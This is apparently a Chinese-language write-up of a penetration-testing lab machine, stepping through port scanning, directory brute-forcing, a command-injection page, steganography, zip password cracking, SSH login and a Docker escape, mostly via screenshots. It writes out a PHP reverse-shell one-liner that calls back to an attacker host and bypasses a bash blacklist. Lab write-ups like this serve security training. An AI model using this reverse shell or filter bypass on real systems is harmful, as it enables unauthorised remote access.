主机发现
使用 arp-scan 扫描内网存活主机：
arp-scan -l
目标 IP 为 192.168.21.176。
端口与服务扫描
使用 nmap 进行端口扫描：
nmap -p- 192.168.21.176
发现开放端口 21（FTP）、22（SSH）、80（HTTP）。
进一步进行服务版本扫描：
nmap -sV -sC -p21,22,80 192.168.21.176

Web 渗透
直接访问 80 端口：

目录扫描
使用 dirb 进行目录扫描：
dirb http://192.168.21.176
命令执行漏洞
发现一个命令执行入口，测试 whoami：

尝试查看 /etc/passwd：

反弹 Shell
存在黑名单过滤，bash 被禁用。使用 PHP 反弹 Shell 绕过：
whoami|php -r '$sock=fsockopen("192.168.21.131",666);exec("bash <&3 >&3 2>&3");'
成功获取 Shell：

尝试 Python 提权获取 TTY：
python -c 'import pty;pty.spawn("/bin/bash")'

查看命令执行的源码：

图片隐写与密码爆破
note.txt 线索
翻找文件发现 note.txt 提示：


提示去看 images 目录：

隐写分析
查看 jpg 图片文件：


先用 strings 查看：

没有发现，换 steghide 工具：


压缩包密码爆破
使用 fcrackzip 爆破 backup.zip 密码：



查看解压出的文件：

审计源码发现密码硬编码在代码中：


FTP 匿名登录
尝试 FTP 匿名登录：


没有有用信息，直接枚举用户名尝试 SSH 登录：

成功使用第一个用户登录：

SSH 登录
登录后查找可用的提权文件：


查看 local 目录内容，尝试使用脚本提权：


不回显但能执行命令，直接执行 bash：


Docker 逃逸提权
检查发现当前处于 Docker 容器中，需要进行 Docker 逃逸获取宿主机 root 权限：



